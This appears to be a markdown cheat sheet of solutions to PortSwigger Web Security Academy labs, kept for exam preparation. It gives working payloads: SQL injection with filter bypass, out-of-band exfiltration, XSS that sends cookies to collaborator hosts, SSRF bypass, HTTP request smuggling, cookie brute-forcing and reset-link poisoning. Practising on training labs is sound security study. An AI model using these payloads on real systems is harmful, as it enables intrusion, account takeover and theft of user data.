 "These labs have been selected because they reinforce core web security testing skills - such as understanding encodings and using them to evade defences, and proficiency in exploiting cross-user attacks. These specific labs support your exam preparation in terms of skill development, but they are in no way a list of the components you'll be expected to solve to complete the exam."

# [0x1] Lab: SQL injection with filter bypass via XML encoding
You will need [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) Burp Suite Extension
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <stockCheck>
      <productId>
        2
      </productId>
    <storeId>
      <@hex_entities>
        1 union select password from users where username='administrator' 
      <@/hex_entities>
    </storeId>
  </stockCheck>
```

# [0x2] Lab: Blind SQL injection with out-of-band data exfiltration
### Identify vulnerability:
```sql
aaxaxa'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual-- 
```
Control + U for URL Encoding and SEND

### Data exfiltration
```sql
'UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```
Control + U for URL Encoding and SEND

# [0x3] Lab: Exploiting cross-site scripting to steal cookies 
A simulated victim user views all comments after they are posted.<br>
Write this payload into comment section:
```js
<script> document.location = "http://<BURP-COLLABORATOR>/?" + document.cookie </script>
```

# [0x4] Lab: SSRF with blacklist-based input filter
```
http://127.1/%2561dmin/delete?username=carlos
```

# [0x5] Lab: Exploiting HTTP request smuggling to capture other users' requests

Send this request to repeater and with HTTP Request Smuggler extension CL.TE send the requests a lot of times till the victim user visit our post requests
```
POST / HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Connection: close
Transfer-Encoding: chunked
Content-Length: 382

0

POST /post/comment HTTP/1.1
Host: 0ac3003b03f25372c05c3a6500550078.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 910
Cookie: session=T4wowDw3zijv7BtCJopH8kzeW8ur458c

csrf=OFh9DBRBkec4d8Xmh2rzVGNUZuDZlbH0&postId=5&name=Carlos+Montoya&email=carlos%40normal-user.net&website=https%3A%2F%2Fnormal-user.net&comment=aa
```

# [0x6] Lab: Brute-forcing a stay-logged-in cookie
Login in our account `wiener:peter` and enable the option button `Stay logged in`. When successflly login intercept a GET request at `my-account` and a `stay-logged-in` cookie will appear.

Overtake carlos account steps:
- Send request to Intruder
- Menu bar => Payloads => Payload Processing
  - Add Hash:MD5
  - Add prefix:`carlos:`
  - Add Encode:Base64-encode
- Add $$ after = in `stay-logged-in` cookie e.g. `stay-logged-in=$$`
The last step is bruteforce passwords with these [passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords). DONT FORGET TO LOGOUT FROM WIENER ACCOUNT
![image](https://user-images.githubusercontent.com/45040001/193135064-b1b6ab39-ce48-4a14-af92-92a3ed7ba26e.png)

# [0x7] Email Reset User Takeover
Go to 'Forgot you password?' functionality, if you can put a name instead of email put 'carlos' username and intercept the post request.
For the next step we have to open the exploit server and copy the exploit server host, insert 'X-Forwarded-Host' header with exploit server host for value and forward the request.
Our last step is to open the http logs from exploit server and take the reset link with new password functionality

# [0x8] onpopstate XSS cookie retrieve 
You have to encode the payload with hackvertor extension.
Ps. Don't forget the ``` ` ``` quote after onpopstate=document.location=<HERE QUOTES> 
```
<@burp_urlencode>

<iframe onload="if(!window.flag){this.contentWindow.location='https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>#';flag=1}" src="https://portswigger-labs.net/xss/xss.php?x=<body onpopstate=document.location=`http://mi8wmhv2blmszdpoeo30vaj3iuokc9.oastify.com/?`+document.cookie>"></iframe>

<@/burp_urlencode>
```
